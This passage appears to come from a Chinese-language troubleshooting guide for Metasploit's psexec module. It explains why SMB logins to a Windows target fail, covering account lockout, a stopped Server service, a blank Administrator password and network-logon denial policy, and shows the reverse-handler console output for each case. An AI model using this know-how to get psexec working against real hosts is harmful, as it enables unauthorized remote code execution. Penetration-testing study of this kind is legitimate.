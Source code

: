 报错原因：账户已被锁定，组策略“账户锁定策略（帐户锁定阈值）”默认为0永不锁定。

```
msf exploit(windows/smb/psexec) > exploit
[*] Started reverse handler on 192.168.1.120:4444[*] Connecting to the server...[*] Authenticating to 192.168.1.108:445|WORKGROUP as user 'administrator'...[-] Exploit failed [no-access]: Rex::Proto::SMB::Exceptions::LoginError Login Failed: The server responded with error: STATUS_ACCOUNT_LOCKED_OUT (Command=115 WordCount=0)
```



### (11) Rex::Proto::SMB::Exceptions::LoginError Login Failed: Connection reset by peer

报错原因：目标主机上的Server服务处于停止状态，服务名称为：LanmanServer。

```
msf exploit(windows/smb/psexec) > exploit
[*] Started reverse handler on 192.168.1.120:4444[*] Connecting to the server...[*] Authenticating to 192.168.1.108:445 as user 'administrator'...[-] Exploit failed [no-access]: Rex::Proto::SMB::Exceptions::LoginError Login Failed: Connection reset by peer
```



### (12) Rex::Proto::SMB::Exceptions::LoginError Login Failed: The server responded with error: STATUS_ACCOUNT_RESTRICTION

报错原因：目标主机上的Administrator密码为“空”，而psexec模块中的smbpass选项是不能为“空”的，否则就会出现以下报错。组策略“密码必须符合复杂性要求”已禁用。

```
msf exploit(windows/smb/psexec) > exploit
[*] Started reverse handler on 192.168.1.120:4444[*] Connecting to the server...[*] Authenticating to 192.168.1.108:445 as user 'administrator'...[-] Exploit failed [no-access]: Rex::Proto::SMB::Exceptions::LoginError Login Failed: The server responded with error: STATUS_ACCOUNT_RESTRICTION (Command=115 WordCount=0)
```



### (13) Rex::Proto::SMB::Exceptions::LoginError Login Failed: The server responded with error: STATUS_LOGON_TYPE_NOT_GRANTED

报错原因：Administrator管理员的账户和密码都是正确的，但设置了组策略“拒绝从网络访问此计算机”选项就会出现以下报错。

```
msf exploit(windows/smb/psexec) > exploit
[*] Started reverse handler on 192.168.1.120:4444[*] Connecting to the server...[*] Authenticating to 192.168.1.108:445 as user 'administrator'...[-] Exploit failed [no-access]: Rex::Proto::SMB::Exceptions::LoginError Login Failed: The server responded with error: STATUS_LOGON_TYPE_NOT_GRANTED (Command=115 WordCount=0)
```



### (14) Rex::Proto::SMB::Exceptions::LoginError Login Failed: The server responded with error: STATUS_TRUSTED_RELATIONSHIP_FAILURE (Command=115 WordCount=0)
